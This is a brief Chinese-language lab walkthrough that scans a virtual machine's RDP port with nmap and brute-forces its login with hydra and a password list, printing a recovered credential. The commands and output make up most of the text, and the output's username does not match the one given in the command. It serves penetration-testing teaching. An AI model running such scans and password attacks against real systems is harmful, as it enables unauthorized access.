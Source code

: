 ![开启 RDP 服务](./../../../images/%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3/%E6%9C%AA%E5%BD%92%E7%BA%B3/%E5%BC%80%E5%90%AF%20RDP%20%E6%9C%8D%E5%8A%A1.png)

使用 nmap 扫描 RDP 服务端口 3389

```
┌──(root㉿Kali-24)-[~]
└─# nmap 192.168.1.71 -p 3389
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 18:57 CST
Nmap scan report for 192.168.1.71
Host is up (0.00019s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
MAC Address: 00:0C:29:0E:EC:86 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

> 可以看到端口是开启的

开始爆破

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l hello -P hello.txt rdp://192.168.1.71 -vV
```

```
[3389][rdp] host: 192.168.1.71   login: windows   password: hello
```
